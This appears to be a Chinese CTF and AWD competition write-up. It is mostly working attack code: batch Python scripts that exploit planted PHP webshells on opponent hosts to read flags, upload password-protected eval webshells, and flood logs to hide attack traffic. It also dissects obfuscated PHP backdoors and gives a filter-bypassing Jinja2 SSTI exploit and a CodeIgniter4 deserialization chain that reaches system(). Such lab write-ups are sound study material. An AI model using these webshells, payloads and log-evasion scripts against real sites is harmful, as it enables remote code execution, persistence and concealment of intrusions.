awd
攻击函数集合
这里我比赛前就写好了，不过他出了些问题，裂开，正好乘机修一下
# TODO 调用第三方库
import base64
import os
import re
import random
import requests
import time
# TODO 提交flag函数, 需要抓包查看提交的地址，稳妥 调用： submit_flag(flag, url)
# 需要修改 submit_url data header 位置
def submit_flag(flag, url):
try:
submit_url = "http://172.17.135.26:19999/api/flag" # 这里写抓包得到的提交地址,最前面不需要加 /
data = { # flag
"flag": "{}".format(flag)
}
header = { # token
"Authorization": "320ca217aab29b1a789e5f5e81bc9ec3"
}
proxy = {
#"http": "http://localhost:8080" # 使用代理，方便抓包，可以不用
}
####### 以下无需修改
res = requests.post(submit_url, headers=header, json=data, proxies=proxy).text
print(url + "[+]")
print(res)
except:
print(url + "[-]flag提交函数未知错误")
# TODO 提交flag函数 调用 curl_submit_flag(flag, url) 只能在Linux中使用，需要用wsl跑Windows需要考虑转义问题 暂不使用
# 此函数需修改 submit_format ,并且只限于赛方给了curl传flag的情况下
# 传入flag和题目靶机首地址，例如 http://172.17.135.26:10016/
# def curl_submit_flag(flag, url):
# try:
# # 这里写给出的提交flag格式
# submit_format = 'curl -X POST http://172.17.135.26:19999/api/flag -H "Authorization: 320ca217aab29b1a789e5f5e81bc9ec3" -d "{ \"flag\": \"' + flag + '\" }"'
# print(url)
# os.system(submit_format)
# except:
# print(url + " :flag提交未知错误")
# pass
# TODO 脏数据,用于恶心日志文件 调用：dirty_data(url)
# 该函数已封装完毕，无需任何修改
# 传入flag和题目靶机首地址，例如 http://172.17.135.26:10016/
def dirty_data(url):
try:
data = {
"cmd": "system('cat /flag');"
}
# 单纯脏日志注释for，并在主函数加上while
for i in range(0, 200):
s0 = chr(int(random.uniform(97, 122)))
s1 = chr(int(random.uniform(97, 122)))
s2 = chr(int(random.uniform(97, 122)))
s3 = chr(int(random.uniform(97, 122)))
s4 = chr(int(random.uniform(97, 122)))
# 生成脏链接
url_dirty = url + "?" + s0 + "=" + s1 + s2 + s3 + s4
# print(url_dirty)
requests.post(url_dirty, data)
except:
print("第" + i + "条脏数据上传失败")
pass
# TODO 获取flag ,漏洞利用函数 调用： flag = attack(url)
# 此函数运行需要修改 payload_address data/posix并设置get/post传参
# flages = str(flag_text)[2:-2] 处可以对flag做出调整
# 此函数可以基于传参进行任意攻击,不局限于提交flag
def attack(url):
try:
# 木马文件路径,例如： include/shell.php 最开始不加 /
payload_address = "App/Mobile/Controller/wtf.php"
# post
data = {
"file": "cat /flag ||" # 攻击执行
}
# get
params = {
"": "" # get传参
}
url_shell = url + payload_address
shell_res = requests.post(url_shell, data).text # 这是post请求
# shell_res = requests.get(url_shell, params=params).text # 这是get请求
flag_text = re.findall('flag{.*?}', shell_res)
flages = str(flag_text)[2:-2]
print(url + "[攻击完毕[+]]")
print(flages)
return flages
except:
print("flag获取失败")
return 0
pass
# 利用小马上传大马
def upload_malaysia(url):
try:
# 木马文件路径,例如： include/shell.php 最开始不加 /
payload_address = "include/shell.php"
url_shell = url + payload_address
# print(url_shell)
# 获取文件
with open("nodie.php", "r") as f:
file = base64.b64encode(f.read().encode('utf-8'))
## post
data = {
# "passwd": "atmujie", # 密码验证
"cmd": "file_put_contents('/var/www/html/apache.php',base64_decode(\"{}\"));".format(bytes.decode(file))
# 攻击执行
}
# print(data)
requests.post(url_shell, data)
## get
# requests.get(url_shell+"?s=payload")
print("[+]" + url + "尝试上传大马完毕，自行测试是否成功")
except:
print("大马上传失败")
return 0
pass
def upload_pony(url):
try:
# 木马文件路径,例如： include/shell.php 最开始不加 /
payload_address = ""
url_shell = url + payload_address
# post
data = {
"passwd": "atmujie", # 密码验证
"cmd": "file_put_contents('/var/www/html/log.php','<?php if(md5($_POST[passwd])===\"7ac0852c4c3cfff535d3c746a9064daf\"){@eval($_POST[cmd]);}');"
# 攻击执行
}
requests.post(url_shell, data)
## get
# requests.get(url_shell+"?s=payload")
print("上传小马执行完成，自行检查是否成功")
except:
print("上传失败")
pass
# 主函数
if __name__ == '__main__':
try:
# 指定端口范围
for i in range(0, 1):
# 跳过自己的靶机
if i == 111:
continue
url = "http://1.15.224.114:{}/".format(i)
################# 函数调用区域 ################
##############################################
except:
print("主函数未知错误")
pass
awd漏洞利用
D盾扫描

eval函数 get/post直接利用
awdhtml/.fwma.php

简单的一句话利用
批量化
写好了函数，直接拼积木就可以用了，这里以.fwma.php 为例
eval() get/post直接提交flag
import base64
import os
import re
import random
import requests
# TODO 获取flag ,漏洞利用函数 调用： flag = attack(url)
# 此函数是以正常一句话马获取flag
def attack(url):
try:
# 木马文件路径,例如： include/shell.php 最开始不加 /
payload_address = ".fwma.php"
# post
data = {
"fwfwfwfwfw": "system('cat /flag');" # 攻击执行
}
# get
posix = {
"": "" # get传参
}
url_shell = url + payload_address
shell_res = requests.post(url_shell, data).text # 这是post请求
# shell_res = requests.get(url_shell, posix).text # 这是get请求
flag_text = re.findall('{.*?}', shell_res)[0]
return "flag" + flag_text
except:
print("flag获取失败")
return 0
pass
# TODO 提交flag函数, 需要抓包查看提交的地址，稳妥 调用： submit_flag(flag, url)
# 需要修改 submit_url data header 位置
def submit_flag(flag, url):
try:
submit_url = "http://172.17.135.26:19999/api/flag" # 这里写抓包得到的提交地址,最前面不需要加 /
data = { # flag
"flag": "{}".format(flag)
}
header = { # token
"Authorization": "320ca217aab29b1a789e5f5e81bc9ec3"
}
proxy = {
#"http": "http://localhost:8080" # 使用代理，方便抓包，可以不用
}
####### 以下无需修改
res = requests.post(submit_url, headers=header, json=data, proxies=proxy).text
print(url + "[+]")
print(res)
except:
print(url + "[-]flag提交函数未知错误")
# TODO 脏数据,用于恶心日志文件 调用：dirty_data(url)
# 该函数已封装完毕，无需任何修改
# 传入flag和题目靶机首地址，例如 http://172.17.135.26:10016/
def dirty_data(url):
try:
data = {
"cmd": "system('cat /flag');"
}
for i in range(0, 200):
s0 = chr(int(random.uniform(97, 122)))
s1 = chr(int(random.uniform(97, 122)))
s2 = chr(int(random.uniform(97, 122)))
s3 = chr(int(random.uniform(97, 122)))
s4 = chr(int(random.uniform(97, 122)))
# 生成脏链接
url_dirty = url + "?" + s0 + "=" + s1 + s2 + s3 + s4
# print(url_dirty)
requests.post(url_dirty, data)
except:
print("第" + i + "条脏数据上传失败")
pass
# 主函数
if __name__ == '__main__':
try:
# 指定端口范围
for i in range(8001, 8011):
# 跳过自己的靶机
if i == 8001:
continue
url = "http://172.17.135.39:{}/".format(i)
################# 函数调用区域 ################
flag = attack(url)
# print(flag)
submit_flag(flag, url)
# dirty_data(url)
##############################################
except:
print("主函数未知错误")
pass
awdhtml/config.php

利用方式和.fwma.php一致，改个路径就行
批量化

awdhtml/index.php

利用方式同上,修改路径即可
值得一提的是因为index.php文件很多，正则不容易匹配到flag，这里我将匹配规则改为了-1
批量化

include文件包含
awdhtml/404.php

文件包含，这里改一下上面脚本的提交函数就行
批量化
# TODO 获取flag ,漏洞利用函数 调用： flag = attack(url)
# 此函数运行需要修改 payload_address data/posix并设置get/post传参
# 此函数是以正常一句话马/文件包含马等可以简易利用的漏洞获取flag
def attack(url):
try:
# 木马文件路径,例如： include/shell.php 最开始不加 /
payload_address = "404.php"
# post
data = {
"": "system('cat /flag');" # 攻击执行
}
# get
params = {
"file": "/flag" # get传参
}
url_shell = url + payload_address
# shell_res = requests.post(url_shell, data).text # 这是post请求
shell_res = requests.get(url_shell, params=params).text # 这是get请求
flag_text = re.findall('{.*?}', shell_res)[0]
return "flag" + flag_text
except:
print("flag获取失败")
return 0
pass
改利用代码，不容易直接看出利用方式的洞
awdhtml/xyhai.php
这个漏洞比较麻烦
<?php
class YPNX {
function xRNA() {
$dorK = "\x14" ^ "\x75";
$xLGK = "\xc5" ^ "\xb6";
$aIAV = "\x1" ^ "\x72";
$PCWV = "\x8d" ^ "\xe8";
$tEMp = "\x96" ^ "\xe4";
$eUdm = "\x21" ^ "\x55";
$TFYi =$dorK.$xLGK.$aIAV.$PCWV.$tEMp.$eUdm;
return $TFYi;
}
function __destruct(){
$uNHI=$this->xRNA();
@$uNHI($this->fR);
}
}
$ypnx = new YPNX();
//@$ypnx->fR = isset($_GET['id'])?base64_decode($_POST['pwd']):$_POST['pwd'];
?>
先拿他的异或跑一下

断言，那和eval就是一个用法
直接利用没有成功，于是我在本地起了一个环境，发现访问url为http://localhost/awdhtml/xyhai.php?s=/Login/index
接下来payload构造就和.fwma.php一致了
批量化
# TODO 获取flag ,漏洞利用函数 调用： flag = attack(url)
# 此函数运行需要修改 payload_address data/posix并设置get/post传参
# 此函数是以正常一句话马获取flag
def attack(url):
try:
# 木马文件路径,例如： include/shell.php 最开始不加 /
payload_address = "xyhai.php?s=/Login/index&id=1111"
# post
data = {
"pwd": "c3lzdGVtKCJjYXQgL2ZsYWciKTs=" # 攻击执行
}
# get
params = {
"id": "1" # get传参
}
url_shell = url + payload_address
shell_res = requests.post(url_shell, data).text # 这是post请求
# shell_res = requests.get(url_shell, params=params).text # 这是get请求
flag_text = re.findall('flag{.*?}', shell_res)[0]
print(flag_text)
return flag_text
except:
print("flag获取失败")
return 0
pass
awdhtml/App/Mobile/Controller/wtf.php
<?php $file=$_POST['file']."s";?>
<?php $config="s..y..s..t..e..m"; $config=implode(explode("..",$config)); ?>
<?php //$config($file); ?>
传入file，将s..y..s..t..e..m以..为分割转为数组在拼接，相当于$config=system,所以直接用，同样改一下初始的脚本就行
注意后面拼接了s，需要加上 || 绕过
批量化
# TODO 获取flag ,漏洞利用函数 调用： flag = attack(url)
# 此函数运行需要修改 payload_address data/posix并设置get/post传参
# 此函数是以正常一句话马获取flag
def attack(url):
try:
# 木马文件路径,例如： include/shell.php 最开始不加 /
payload_address = "App/Mobile/Controller/wtf.php"
# post
data = {
"file": "cat /flag ||" # 攻击执行
}
# get
params = {
"": "" # get传参
}
url_shell = url + payload_address
shell_res = requests.post(url_shell, data).text # 这是post请求
# shell_res = requests.get(url_shell, params=params).text # 这是get请求
flag_text = re.findall('flag{.*?}', shell_res)
flages = str(flag_text)[2:-2]
print(flages)
return flages
except:
print("flag获取失败")
return 0
pass
很奇怪，之前我一直是正则后用[0]转字符串，但这里报错数组越界，输出正常，所以我把获取flag的最后改成了这样，有一说一，我不理解
awdhtml/App/Runtime/Data/.css.php
<?php
$setting = $_POST['setting'];
class Config{
public $config = "r|x|r|s|d|l";
public $miao;
public $setting;
public function __construct($miao)
{
$this->miao = $miao;
}
public function doSomethin(){
// 以 | 拼接config ，即rxrsdl
$this->config = explode("|",$this->config);
foreach ($this->config as $value){
// 在传入的setting后拼接rxrsdl移位1 ，即system
// 也就是说传入的是参数，函数这里都写好了
$this->setting .= chr((ord($value)+1));
}
$error = $this->setting;
//$error($this->miao);
}
}
$config = new Config($setting);
$config->doSomethin();
?>
批量化

awdhtml/App/Runtime/Logs/.js.php
<?php
$string = '';
$password = 'password';
if(isset($_POST[$password])){
$hex = $_POST[$password];
for($i = 0; $i < strlen($hex) - 1; $i += 2) {
// hexdec用于将16进制转10进制，chr将10进制ascii转字符，就是说将指令hex编码就行
$string .= chr(hexdec($hex[$i] . $hex[$i + 1]));
}
}
//eval($string);
?>
这个就有意思了，awd我用这个一直打学弟，学弟也一直用这个打我，当时我是把修的事给了同队学弟，大概因为是隐藏文件，他也没注意修，抓日志又抓不到直接访问的流量，导致我一直被学弟删站，我也伞兵了，我觉得我能用这个打学弟，学弟肯定把这洞修了，就一直没管，好嘛，最后修了一下，我们互相打的居然是一个洞，世界都安静了。
果然以后awd我找到洞就该直接给他修掉，磨磨唧唧半天都给学弟把我崩了
写个小思路，当发现一个地方很像洞，又不会用时，可以挂上日志等着，总有强队会拿他来打你，这样就知道怎么用这个洞了
这个洞批量利用思路也简单
批量化

将上面的批量脚本中传入的命令改为hex编码即可
网站模板漏洞
awdhtml/Public/Home/default/404.html


这是一个学长准备的很有意思的漏洞，不过我当时手忙脚乱的，虽然发现了，但也只是匆匆注释了事，并没有去利用
首先这是一个html，无法直接去利用，好在他是个模板，404页面一般在出错时才会被使用，所以随便点一下，然后改错url

得到flag
有趣的是404不止一个，靶场很多404页面都被写上了马，D盾还没扫出来，再加上通过404页面模板攻击很难让别人通过分析流量找到位置，所以很难找到并修复
批量化

awdhtml/uploads/img1/20171124/gif.php
这个应该是D盾扫描后最难用的洞，因为gif.php实在太大，里面还有五个eval
当然我单独题出来不是因为eval,而是这地方漏洞太多，多到想怎么打就怎么打的地步
首先翻到最下面，发现只有Main类可以直接调用，其他类或许有问题，但不是轻易能调用成功的
我发现这个文件其实还真有的审
ps: 审完了，是个伪装成正常文件的大马，我就不客气的收下了

在Main类的构造方法中获取了Get传参action

调用进mainLogin后判断了cookie


不存在时整个链没啥用，存在就会以输入的action值进入对轮子的调用，当然这里可以拿到后台的密码



action=delfile就是文件删除，将路径url编码后base64编码，get传入path即可删除任意文件

action=deldir 删除目录，用法同上
不过鉴于这是个awd的靶场，虽然是大马，但还是需要写一下批量化
批量化
和之前没什么区别，就是需要抓包拿一下数据，
# TODO 获取flag ,漏洞利用函数 调用： flag = attack(url)
# 此函数运行需要修改 payload_address data/posix并设置get/post传参
# 此函数是以正常一句话马获取flag
def attack(url):
try:
# 木马文件路径,例如： include/shell.php 最开始不加 /
payload_address = "uploads/img1/20171124/gif.php?action=wjdc&path=L3Zhci93d3cvaHRtbC91cGxvYWRzL2ltZzEvMjAxNzExMjQv"
# post
data = {
"username": "admin",
"password": "111",
"newfile": "L3Zhci93d3cvaHRtbC91cGxvYWRzL2ltZzEvMjAxNzExMjQvZmlsZS5waHA=",
"class": "UTF-8",
"charset": "UTF-8",
"txt": "PD9waHAgCmlmKG1kNSgkX1BPU1RbJ3Bhc3N3ZCddKSA9PSAiZTQ1YzVlNDBlNmVkNmE4ZjljMWE0NzUwYzgxNTQ0NjAiKXsKICAgZXZhbCgkX1BPU1RbJ2NtZCddKTsKfQ==",
"time": "2021-11-23+22:15:24",
"bin": "wb+"# 攻击执行
}
# get
params = {
"": "" # get传参
}
# porxy = {
# "http":"http://localhost:8080"
# }
header = {
"Cookie": "PHPSESSIDS=5dce171e2fab0814d67170153804f937;"
}
url_shell = url + payload_address
shell_res = requests.post(url_shell, data , headers=header).text # 这是post请求
# shell_res = requests.get(url_shell, params=params).text # 这是get请求
flag_text = re.findall('flag{.*?}', shell_res)
flages = str(flag_text)[2:-2]
print(url + "[+]")
print(flages)
return flages
except:
print("flag获取失败")
return 0
pass

想再写马之后立即利用只需要再加一个提交attack函数即可
脏日志
为了恶心对手让他们不会狠轻易的抓到攻击流量，特意写了一个脏日志的脚本
还是之前写的函数，拼接修改一下就能用了
# TODO 调用第三方库
import base64
import os
import re
import random
import time
import requests
# TODO 脏数据,用于恶心日志文件 调用：dirty_data(url)
# 该函数已封装完毕，无需任何修改
# 传入flag和题目靶机首地址，例如 http://172.17.135.26:10016/
def dirty_data(url):
try:
data = {
"cmd": "system('cat /flag');"
}
s0 = chr(int(random.uniform(97, 122)))
s1 = chr(int(random.uniform(97, 122)))
s2 = chr(int(random.uniform(97, 122)))
s3 = chr(int(random.uniform(97, 122)))
s4 = chr(int(random.uniform(97, 122)))
# 生成脏链接
url_dirty = url + "?" + s0 + "=" + s1 + s2 + s3 + s4
# print(url_dirty)
requests.post(url_dirty, data)
except:
print("第" + i + "条脏数据上传失败")
pass
# 主函数
if __name__ == '__main__':
while True:
try:
# 指定端口范围
for i in range(8001, 8011):
# 跳过自己的靶机
if i == 8001:
continue
url = "http://172.17.135.39:{}/".format(i)
################# 函数调用区域 ################
dirty_data(url)
##############################################
except:
print("主函数未知错误")
pass
CTF
EASYWEB1 EASYWEB2 靶场关了，不过这两道分别是入门难度的注入和文件上传，所以也不需要详细的写
web1 也关了，没撤，web1前四个点没什么意思，最后的udf提权和内网穿越还是很值得一提的，不过关了我也起不来，就这样吧
WEB2
题目源码
import re
from flask import Flask, render_template, render_template_string, request
app = Flask(__name__)
def isLegalParam(param):
return (re.search(r'\'|\"|_|{{.*}}|{%.*%}|\[|\]', param, re.M|re.S) is None)
@app.route('/')
def main():
return render_template("index.html")
@app.route('/calc')
def calc():
formula = request.args.get("calc")
answer = request.args.get("answer")
if isLegalParam(formula) and isLegalParam(answer):
answerHtml = formula + "=" + answer
print(answerHtml)
else:
answerHtml = formula + "=" + answer
print(answerHtml)
answerHtml = "Data illegality."
return render_template_string(answerHtml)
@app.route("/hint")
def hint():
with open(__file__, "rb") as f:
file = f.read()
return file
if __name__ == '__main__':
app.run(host="0.0.0.0")
简单分析一下逻辑：

在calc路由下传入两个参数，calc和answer
然后程序输出clac = answer, 其中传参在上面经过了严格的过滤
首先闭合的花括号无法使用，但单独的花括号可以，这样就可以做到一个闭合
?calc={{1 * 1 &answer==1}}
这样在拼接后就成了1+1==2

就达成了一个类似注入的效果
然后使用 ()|attr(request.args.x1) &x1=__class__的方式绕过正则限制执行命令，其中attr()方法设置或返回被选元素的属性和值。
意思是将()通过管道符传递给__class__执行
所以exp
import requests
url = "http://10.160.108.106:5000/calc"
flag = ""
for i in range(100):
for j in range(40,126):
params = {
"calc": "{{()|attr(request.values.x1)|attr(request.values.x2)|attr(request.values.x3)()|attr(request.values.x4)(194)|attr(request.values.x5)|attr(request.values.x6)|attr(request.values.x4)(request.values.x7)|attr(request.values.x4)(request.values.x8)(request.values.x9)",
"answer": "=(request.values.x10)}}",
"x1": "__class__",
"x2": "__base__",
"x3": "__subclasses__",
"x4": "__getitem__",
"x5": "__init__",
"x6": "__globals__",
"x7": "__builtins__",
"x8": "eval",
"x9": "__import__('os').popen('cat /flag').read()[{}:{}]".format(i, i+1),
"x10": "{}".format(chr(j))
}
res = requests.get(url=url,params=params)
if "True" in res.text:
flag += chr(j)
print(flag)
正式环境和自己起的靶场os的位置会有所不同，使用burp爆破，得到不会报500错误的既是os
WEB3
题目源码下载地址：链接：https://pan.baidu.com/s/1-XWbbb9x6YDvok25iaJ3Qw 提取码：GAME
pop链构造，CodeIgniter4框架，这里只放关键代码





<?php
// 执行终点
namespace Faker;
class Generator{
public function __construct()
{
$this->formatters = ["delete"=>"system"];
}
}
// 入口后继
namespace CodeIgniter\Session\Handlers;
use Faker\Generator;
class MemcachedHandler{
public function __construct()
{
$this->memcached = new Generator();
$this->lockKey = "dir";
}
}
// 入口位置 class RedisHandler extends BaseHandler
namespace CodeIgniter\Cache\Handlers;
class RedisHandler{
public function __construct()
{
$this->redis = new \CodeIgniter\Session\Handlers\MemcachedHandler();
}
}
echo serialize(new RedisHandler());


![极客大挑战2021wp-Web[部分]](/medias/featureimages/10.jpg)